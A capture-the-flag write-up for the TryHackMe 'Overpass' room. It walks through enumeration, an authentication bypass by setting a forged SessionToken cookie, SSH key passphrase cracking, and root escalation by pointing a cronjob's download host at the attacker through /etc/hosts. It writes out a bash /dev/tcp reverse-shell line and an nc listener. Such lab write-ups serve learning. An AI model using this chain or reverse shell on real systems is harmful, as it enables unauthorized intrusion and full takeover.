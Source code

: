 # Overpass Writeup

![bannner](/thm/images/overpass/banner.png)

Writeup for room - [Overpass](https://tryhackme.com/room/overpass)

## Scanning and Enumeration

Let's start with an nmap scan.

```
nmap <IP> -sV -sC -T4 -p-
```

![nmap scan](/thm/images/overpass/nmap.png)

We find 2 open ports, let's check port 80.

![homepage](/thm/images/overpass/homepage.png)

After looking through the pages and source code we really can't find anything that interesting. Let's check for hidden directories with gobuster.

![gobuster](/thm/images/overpass/gobuster.png)

Seems like there's an admin page.

![admin](/thm/images/overpass/admin.png)

We can't seem to get in with default credentials so we could try a bruteforce with hydra but the hints say we have to look at OWASP top 10.
When inspecting the source code we find a login.js so let's check that out.

![login](/thm/images/overpass/loginjs.png)

This functions is interesting because it tells us there's a cookie being used called "SessionToken".

![loginfunc](/thm/images/overpass/loginfunc.png)

Perhaps we can give this cookie a random value and it will let us in?

![cookie](/thm/images/overpass/sessioncookie.png)

Reload the page and we find a private ssh key for user james.

![sshkey](/thm/images/overpass/sshkey.png)

When we try to login with this private key we're asked for a passphrase so lets use john to crack it.
First we convert with ssh2john.py and then we crack it with the rockyou wordlist.

![john](/thm/images/overpass/john.png)

We cracked the passphrase, now we try again.
Don't forget to change the file permissions to 600 or ssh will complain.

![ssh](/thm/images/overpass/ssh.png)

## Privilege escalation

We're in! The user flag is the usual location and should be easy to find. Let's to try escalate our privilege.

sudo -l does not give us anything.
Perhaps there's an interesting file with SUID permission?

![suid](/thm/images/overpass/suid.png)

Again nothing we can use.

Let's check if we can exploit a cronjob.

![cronjob](/thm/images/overpass/cronjobs.png)

We can see there's a buildscript.sh run from overpass.thm/downloads/src. If we can edit /etc/hosts I can set overpass.thm to my IP and get root privilege with a reverse shell.

First we edit /etc/hosts and put our own IP in.

![etchosts](/thm/images/overpass/etchosts.png)

Then we go back our own machine and create the exact same folders: downloads/src

```
mkdir -p downloads/src
```
Create a buildscript.sh in the src folder and paste the reverse shell in there.

```
bash -i >& /dev/tcp/<your_ip>/4444 0>&1
```

We start the http server.

```
sudo python -m SimpleHTTPServer 80
```
![http](/thm/images/overpass/httpserver.png)

At the same time we listen on port 4444 for a connection from the reverse shell.

```
nc -lnvp 4444
```
![nc](/thm/images/overpass/nc.png)

Hope this writeup helped you!
